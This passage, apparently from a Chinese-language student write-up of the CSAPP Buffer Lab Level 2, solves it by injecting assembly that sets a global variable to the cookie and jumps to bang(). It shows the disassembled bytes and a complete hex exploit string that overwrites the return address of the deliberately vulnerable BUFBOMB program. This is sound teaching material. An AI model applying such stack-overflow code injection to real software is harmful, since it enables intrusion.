 
* #### Level2: Firecracker

  ```
  Similar to Levels0 and 1, your task is to get BUFBOMB to execute the code for bang rather than returningto test. Before this, however, you must set global variable global_value toyour userid’s cookie. Your exploit code should set global_value, push theaddress of bang on the stack, and then execute a ret instruction to cause ajump to the code for bang.
  ```

  把全局变量global_value的值修改为为cookie的值，调用bang

  bang的地址为`8048c9d`

  global_value是全局变量，不储存在栈中，只能通过赋值修改。

  global_value的地址为`0x804d100`

  在buf中写入赋值代码，getbuf返回到buf的地址执行代码

  在getbuf断，查看buf的地址

  ```
  0x80491fa <getbuf+6>      lea    eax, [ebp - 0x28] <0x55683508>
  ```

  buf的地址为`0x55683508`

  构造赋值代码

  ```assembly
  push   $0x8048c9d
  mov    $0x67f4b7b0,%eax
  mov    %eax,0x804d100
  ret  
  ```

  把bang的地址压入栈，把cookie的值赋给global_value，然后ret返回到bang

  `as 2.s -o 2.o`得到二进制文件再objdump -d 2.o反汇编

  ```assembly
     0:	68 9d 8c 04 08       	pushq  $0x8048c9d
     5:	b8 b0 b7 f4 67       	mov    $0x67f4b7b0,%eax
     a:	89 04 25 00 d1 04 08 	mov    %eax,0x804d100
    11:	c3                   	retq 
  ```

  ```
  68 9d 8c 04 08 b8 b0 b7 f4 67 89 04 25 00 d1 04 08 c3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 08 35 68 55
  ```

  ![2](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/CSAPP-Buffer%20Lab/2.png)
